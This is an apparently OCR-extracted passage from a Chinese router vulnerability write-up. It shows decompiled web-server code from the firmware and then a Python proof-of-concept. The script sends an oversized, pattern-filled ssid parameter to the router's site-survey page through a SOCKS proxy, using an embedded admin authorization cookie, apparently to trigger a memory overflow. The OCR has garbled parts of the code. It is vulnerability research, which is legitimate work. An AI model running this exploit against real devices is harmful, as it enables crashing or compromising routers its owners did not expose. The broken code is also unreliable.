 ```
    `}`
    httpPrintf(param_1,
               "&lt;SCRIPT language=\"javascript\" type=\"text/javascript\"&gt;\nvar %s = new Array(\n",
               (int *)"pagePara",uVar11);
    writePageParamSet(param_1,"\"%s\",",&amp;uStack3080,0);
    writePageParamSet(param_1,"%d,",&amp;piStack3044,1);
    writePageParamSet(param_1,"%d,",&amp;piStack3040,2);
    writePageParamSet(param_1,"%d,",&amp;piStack3036,3);
    writePageParamSet(param_1,"%d,",&amp;piStack3032,4);
    writePageParamSet(param_1,"%d,",&amp;piStack3028,5);
    writePageParamSet(param_1,"%d,",&amp;piStack3024,6);
    writePageParamSet(param_1,"%d,",&amp;piStack3020,7);
    __s = &amp;iStack3016;
    uVar12 = 8;
    writePageParamSet(param_1,0x548278);
    httpPrintf(param_1,"0,0 );\n&lt;/SCRIPT&gt;\n",__s,uVar12);
    httpPrintf(param_1,"&lt;script language=JavaScript&gt;\nvar isInScanning = 0;\n&lt;/script&gt;",__s,uVar12);
    uVar9 = 0;
    HttpWebV4Head(param_1,0,0,uVar12);
    __s_00 = "/userRpm/WzdWlanSiteSurveyRpm_AP.htm";
  `}`
```



## 漏洞验证

写了一个 脚本来验证一下：

```
import requests
import socket
import socks
import urllib
SOCKS5_PROXY_HOST = '127.0.0.1' # socks 代 理 IP地 址 是 用 ssh -D进 行 端 口 转 发 ， 需 要 设 置
    代 理
SOCKS5_PROXY_PORT = 9999 # socks 代 理 本 地 端 口
default_socket = socket.socket
socks.set_default_proxy(socks.SOCKS5, SOCKS5_PROXY_HOST, SOCKS5_PROXY_PORT)
socket.socket = socks.socksocket
session = requests.Session()
session.verify = False
def exp(path,cookie):
        headers = `{`
            "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36
(KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36",
                "Cookie":"Authorization=Basic`{`cookie`}`".format(cookie=str(cookie))`}`
    payload="/%0A"*0x55 + "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac"
        params = `{`
        "mode":"1000",
                "curRegion":"1000",
                "chanWidth":"100",
                "channel":"1000",
                "ssid":urllib.request.unquote(payload)
        `}`
    url="http://ip:80/`{`path`}`/userRpm/popupSiteSurveyRpm_AP.htm".for    mat(path=str(path))
    resp = session.get(url,params=params,headers=headers,timeout=10)
        print (resp.text)
exp("TFDTDFTCUJPCWNEB","%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D")
```
